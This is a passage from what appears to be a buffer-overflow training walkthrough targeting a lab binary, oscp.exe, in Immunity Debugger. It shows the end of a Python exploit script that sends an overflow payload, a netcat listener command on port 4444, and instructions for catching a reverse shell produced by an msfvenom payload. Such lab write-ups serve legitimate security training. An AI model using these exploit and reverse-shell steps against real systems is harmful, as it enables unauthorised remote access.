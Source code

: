 ```text


# PASS
s.send('OVERFLOW1 ' + payload + '\r\n')
s.send('EXIT\r\n')
s.close()

print("\nExploited.\n")
```

Start a netcat listener on the Kali box using the LPORT specified in the `msfvenom` command (`4444`).

```text
sudo nc -lvnp 4444
```

Restart `oscp.exe` in Immunity and run the modified `exploit.py` script again. The netcat listener should catch a 
reverse shell.


